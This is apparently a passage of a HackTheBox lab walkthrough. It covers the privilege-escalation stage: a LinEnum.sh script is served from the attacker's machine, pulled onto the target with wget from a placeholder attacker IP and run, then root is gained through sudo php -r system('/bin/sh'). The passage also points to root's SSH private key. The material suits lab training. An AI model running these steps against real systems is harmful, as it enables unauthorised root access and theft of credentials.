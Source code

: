 Note that if you need to get this file again, simple visit https://github.com/rebootuser/LinEnum.git to copy the script onto your local machine.

A fast, easy, and reliable method to transfer files from your local machine onto your target after a shell is obtained is using the Python simplehttp web server module.

Begin by starting a simple web server on your local machine in the directory where the LinEnum.sh script exists.
![image](https://github.com/user-attachments/assets/172b0015-efe9-4ddd-ac4f-a0f771b3ef87)

$ python -m http.server 8080 #any port will work if 8080 is in use

python simple http server
Next, back in our shell, use wget to grab the file from our local machine. Remember to use the tun0 interface IP from your local machine while using the HTB VPN.
![image](https://github.com/user-attachments/assets/50710af7-fff6-450c-b6d3-551ac86f9bb8)

$ wget http://{Attackig IP}:8080/LinEnum.sh

wget LinEnum.sh
Note: You cannot write into every directory in the target. Check permissions of the directory if you’re unable to write.

$ chmod +x LinEnum.sh
$ ./LinEnum.sh
Once the script has completed, notice that we’ve got a potential way to pwn the root user…


sudo pwnage
Now, I had to Google this next part as I wasn’t sure what this file was exactly. Below is the command to start a new connection as root.
![image](https://github.com/user-attachments/assets/0d2351f3-2df4-4964-b3f0-d50da90533db)

www-data@gettingstarted:/usr/bin$ CMD="/bin/sh"
www-data@gettingstarted:/usr/bin$ sudo /usr/bin/php -r "system('$CMD');"

root shell obtained
Note that the shell is pretty finikey and is missing a handful of features, however, you are now the root user and can obtain the last flag!

Note: I’m guessing since we’re now running a shell in a shell, something has broken in a way that may not be fixable. I wasn’t able to upgrade TTY, however, if you did want a nicer shell and go above and beyond, there’s an id_rsa in the /root/.ssh directory for SSH you could copy and use to SSH through a terminal on your local machine.

Now we just have to navigate around a bit and find the flag :)
![image](https://github.com/user-attachments/assets/bd86010f-133e-4dec-a1ff-3093331b1173)


root flag
